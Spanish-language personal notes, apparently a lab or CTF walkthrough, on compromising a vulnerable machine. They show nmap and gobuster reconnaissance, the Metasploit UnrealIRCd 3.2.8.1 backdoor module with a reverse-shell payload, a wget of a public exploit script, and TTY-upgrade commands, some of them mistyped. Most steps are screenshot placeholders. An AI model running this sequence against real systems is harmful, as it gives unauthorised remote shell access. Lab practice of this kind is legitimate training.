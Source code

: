 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

## reconocimiento en la red

![[Reconocimiento VulnixReal.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnix real nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Pasted image 20240306235939.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[VulnixReal goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[vulnix real msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[searchUnreal vulnix real.png]]


Use 2
![[use2 vulnix real.png]]

Options
![[vulnix real options.png]]

set rhost = IP:
![[set rhjost vulnix real.png]]

set rport  6667

![[set report 6667 vulnix real.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[vulnix real use exploit irc unreal.png]]

show payloads:
![[show payloads vulnix real.png]]

set payload reverse:
![[set pauload reverse vulnix real.png]]

set lhosts = local IP:
![[setlhost vulnix real.png]]


exploit
![[vulnix real exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[descargar exploit del repo de github.png]]
Exploit:: faltan pantallazos y comandos


Tratamiento de la TTI
script dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
xport TERM = xterm
xport SHELL = bash
